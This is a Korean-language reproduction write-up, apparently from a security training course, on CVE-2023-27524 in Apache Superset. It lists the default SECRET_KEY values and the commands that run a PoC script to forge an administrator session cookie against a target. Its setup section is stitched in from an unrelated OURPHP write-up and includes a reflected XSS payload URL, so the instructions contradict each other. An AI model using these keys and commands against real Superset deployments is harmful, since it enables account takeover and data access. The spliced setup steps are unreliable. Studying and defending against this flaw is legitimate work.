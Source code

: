 # Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass
WHS_3기_31반_최준우

## 요약
Apache Superset은 시각적, 직관적, 대화형으로 설계된 오픈소스 데이터 탐색 및 시각화 플랫폼입니다.

Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 포함되어 있습니다. 이 애플리케이션은 SECRET_KEY세션 쿠키 서명에 사용되는 기본값을 포함하고 있습니다. 관리자가 이 기본 키를 변경하지 않으면 공격자는 유효한 세션 쿠키를 위조하여 관리자를 포함한 모든 사용자로 인증할 수 있습니다. 이를 통해 Superset 대시보드 및 연결된 데이터베이스에 대한 무단 접근이 허용되고, 잠재적으로 원격 코드 실행으로 이어질 수 있습니다.

CVE-2023-37941 과 결합될 경우 , 인증되지 않은 공격자는 인증을 우회한 후 역직렬화 취약점을 악용하여 원격 코드 실행을 달성할 수 있습니다. 이 문서는 CVE-2023-27524의 악용 사례만 설명합니다.

## 환경 구성 및 실행
docker compose up
localhost:8080으로 접속
OURPHP 초기 설정에 다음과 같이 입력 database connection address : db username : root password : root database name : data
payload인 localhost:8080/client/manage/ourphp_out.php?ourphp_admin=logout&out=</script><script>alert("xss")</script> 입력

참고문헌:
https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/
https://github.com/horizon3ai/CVE-2023-27524

## 취약점 재생산
Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 SECRET_KEY.

\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h(버전 < 1.4.1)
CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET(버전 >= 1.4.1)
thisISaSECRET_1234(배포 템플릿)
YOUR_OWN_RANDOM_GENERATED_SECRET_KEY(선적 서류 비치)
TEST_NON_DEV_SECRET(도커 컴포즈)
CVE-2023-27524.py를 사용하여 관리자 세션(user_id가 1인) 쿠키를 위조합니다.

#Install dependencies
pip install -r requirements.txt

#Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
